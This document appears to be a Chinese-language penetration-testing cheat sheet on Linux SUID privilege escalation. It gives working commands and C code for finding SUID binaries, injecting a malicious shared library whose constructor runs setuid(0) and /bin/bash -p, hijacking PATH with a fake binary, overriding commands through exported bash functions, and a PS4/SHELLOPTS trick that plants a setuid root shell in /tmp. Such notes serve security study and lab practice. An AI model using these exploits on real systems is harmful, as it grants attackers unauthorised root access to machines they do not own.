 ```bash
find / -perm -u=s -type f 2>/dev/null # 查找有SUID权限的文件
```

## 可执行文件已知漏洞

用searchsploit对SUID可执行文件进行搜集，查看可利用的漏洞

## 共享库注入

对有SUID权限的文件进行分析，如果有报错的内容表面这个文件请求了一个共享库，那么可以伪造共享库注入提权代码

```bash
strings <file>
strace <file> 2>&1
```

```bash
# file: pri.c

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor)); # 共享库被加载时会自动执行这个函数

void inject() {
		setgid(0);
		setuid(0);
		system("/bin/bash -p");
}
```

```bash
gcc -fPIC -shared -o <file.so> <file.c>
```

在C语言中，`__attribute__((constructor))` 是一个特殊的属性，它用于指定一个函数在程序运行时的初始化阶段被自动调用。具体来说，当程序加载时，具有此属性的函数会在 main() 函数执行之前被自动调用。这个特性通常用于执行一些全局初始化操作，例如初始化全局变量、打开文件、建立连接等。
另外，还有一个对应的 `__attribute((destructor))__` 属性，它让系统在 main() 函数退出或者调用了 exit() 之后，调用我们的函数。带有这些修饰属性的函数，对于我们初始化一些在程序中使用的数据非常有用。

## 环境变量利用

对有SUID权限的文件进行分析(strings strace)，如果里面有相对路径的命令文件，利用PATH环境变量，则可以伪造文件注入提权代码

```bash
#include <stdio.h>
#include <stdlib.h>

void main() {
		setgid(0);
		setuid(0);
		system("/bin/bash -p");
}
```

```bash
export PATH=.:$PATH # 使得当前目录下的文件优先执行
gcc -o <file> <file.c>
/suid-file
```

## SUID-Shell功能

### (1) bash version < 4.2

bash在执行的时候，对于自身定义的函数优先级高于环境变量（类似于环境变量覆盖，用更高优先级的环境变量劫持掉这个命令，注入提权代码

在 Bash 版本小于 4.2 的情况下，可以使用路径的组合作为函数的名称来定义函数。这意味着可以使用像文件路径一样的字符串来命名你的函数。例如，你可以定义一个名为 **`dir/subdir/myfunc`** 的函数。然后，你可以通过 **`dir/subdir/myfunc`** 来调用这个函数。

```bash
strings <file>
# /usr/bin/service apache2 start

function /usr/bin/service { /bin/bash -p; }
export -f /usr/bin/service
<file>
```

### (2) bash version < 4.4

bash版本低于4.4的时候，调试模式，对bash的环境变量进行设置

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash;chmod +xs /tmp/rootbash)' /usr/bin/<file>
```

- `env -i`：这个命令会创建一个新的环境，并在这个新环境中运行后面的命令。新环境中不包含任何原来的环境变量。
- `SHELLOPTS=xtrace`：这个命令会设置 SHELLOPTS 环境变量的值为 xtrace。xtrace 是 Bash 的一个选项，当它被设置时，Bash 会打印出每一条执行的命令。这对于调试脚本非常有用。
- `PS4='$(cp /bin/bash /tmp/rootbash;chmod +xs /tmp/rootbash)'`：这个命令会设置 PS4 环境变量的值为 '$(cp /bin/bash /tmp/rootbash;chmod +xs /tmp/rootbash)'。PS4 是 Bash 的一个特殊变量，它定义了在 xtrace 模式下每一条命令执行前打印的提示符。在这个例子中，我们将提示符设置为一个命令，这个命令会复制 /bin/bash 到 /tmp/rootbash，并给 /tmp/rootbash 设置 SUID 和可执行权限。